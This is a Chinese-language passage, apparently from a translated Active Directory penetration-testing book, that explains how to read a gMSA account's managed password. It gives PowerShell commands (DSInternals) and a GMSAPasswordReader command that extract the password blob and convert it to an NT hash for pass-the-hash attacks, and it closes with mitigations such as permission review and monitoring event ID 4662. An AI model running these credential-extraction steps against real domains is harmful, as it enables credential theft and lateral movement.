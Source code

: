 图 4.20 – 用户检索 gMSA 密码

第三步是妥协用户并将密码作为二进制大对象提取，攻击者随后可以使用以下命令和 `DSInternals`[28] 模块将其转换为 NT 哈希：

```
$pwd = Get-ADServiceAccount -identity sql_acc -Properties msds-ManagedPassword
$pw = ConvertFrom-ADManagedPasswordBlob $pwd.'msds-managedpassword'
ConvertTo-NTHash $pw.securecurrentpassword
```

以下截图显示了 `SecureCurrentPassword` 和 `CurrentPassword` 的 UTF-16 格式。我们还将 `SecureCurrentPassword` 转换为 NT 哈希：

![](img/B18964_04_21.jpg)

图 4.21 – gMSA 密码的 NT 哈希

然后可以使用该哈希值进行传递哈希攻击，我们将在下一章中讨论这种攻击。

但是，如果没有安装 AD 模块，我们可以使用 Windows 编写的 `GMSAPasswordReader`（由 *rvazarkar* 编写），或在 Linux 上使用 `gMSADumper`（由 *micahvandeusen* 编写）。唯一的注意事项是我们需要账户名来转储其哈希。以具有读取 gMSA 密码权限的用户身份运行简单命令：

```
.\GMSAPasswordReader.exe --Accountname sql_acc
```

我们将获得以下输出：

![](img/B18964_04_22.jpg)

图 4.22 – 使用 GMSAPasswordRead 工具的结果

和往常一样，缓解措施是确保正确设置 GMSA 的权限。同时，可以配置并监控事件日志中的事件 ID 4662，这将显示哪个账户查询了 `msDS-ManagedPassword` 属性。

# NTDS 秘密
